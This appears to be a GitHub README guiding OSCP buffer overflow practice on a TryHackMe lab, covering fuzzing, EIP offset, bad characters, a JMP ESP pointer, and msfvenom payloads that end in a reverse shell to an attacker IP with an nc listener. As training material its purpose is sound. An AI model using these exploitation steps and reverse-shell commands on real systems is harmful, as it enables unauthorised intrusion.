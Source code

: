 # OSCP_Prep: Buffer Overflow

For OSCP Buffer Overflow preparation, you don't need complicated codes and/or advanced python skills. You just need a simple python code and work your way up. The following steps are to help you in each of the step that you take. These 6 simple steps are just what you need for OCSP Buffer Overflow preparation.

Free TryHackMe Room: https://tryhackme.com/room/bufferoverflowprep

### Setting up Mona script (for own lab)

Github: https://github.com/corelan/mona.git

```bash
git clone https://github.com/corelan/mona.git

#copy the mona.py and put it inside:
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```

<br>

```bash
#connecting to the THM lab machine
xfreerdp /u:admin /p:password /cert:ignore /v:192.168.10.10
```

### 01 Fuzzing

```bash
python3 01-fuzz.py
```

Press `Ctrl + C` after the application has been crushed. Note down the byte number. (Example: Crushed at `2000`)

### 02 Finding Offset

```bash
#kali $>
msf-pattern_create -l 2000

#update the byte and run the script
python3 02-offset.py
```

At this point, I'm assuming you have Mona setup. 

```bash
#immunity console
!mona findmsp -distance 2000
```

Find `EIP` normal pattern. (Example: EIP contains normal pattern: `0x42987857` (offset `1876`))

### 03 Controlling EIP

```bash
#update the script and run
python3 03-eip.py
```

You should see `424242` for `EIP`.

### 04 Finding Bad Characters

Setting up mona working directory:

```bash
#immunity console
!mona config -set workingfolder c:\mona\%p
```

Generating byte array:

```bash
#immunity console
!mona bytearray -b "\x00"
```

Running the script:

```bash
python3 04-badchar.py

#immunity console
!mona compare -f C:\mona\oscp\bytearray.bin -a 0321FF88
```

Generating byte array with bad characters removed. Update the script and run again util you see 'Unmodified' status in mona memory comparison result.

```bash
#immunity console
!mona bytearray -b "\x00\x0d"

python3 04-badchar.py

#immunity console
!mona compare -f C:\mona\oscp\bytearray.bin -a 03B2FF88
```

### 05 Finding a Jump Point

```bash
#immunity console
!mona jmp -r esp -cpb "\x00\x0d"
```

Set the break point by entering the pointer address and pressing `F2`.

```bash
python3 05-pointer.py
```

If the pointer address stop at `EIP`. You are good to go.

### 06 Popping Calculator

**Make sure to update the bad character that you found.

```bash
#kali $>
msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" -b '\x00\x0d' -f c

#update the script and run
python3 06-calc.py
```

After successfully popping the calculator app, next step is to get a shell.

**Again, make sure the get the bad character right. 

```c++
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.11 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0d"

nc -lvnp 443

python3 07-exploit.py
```



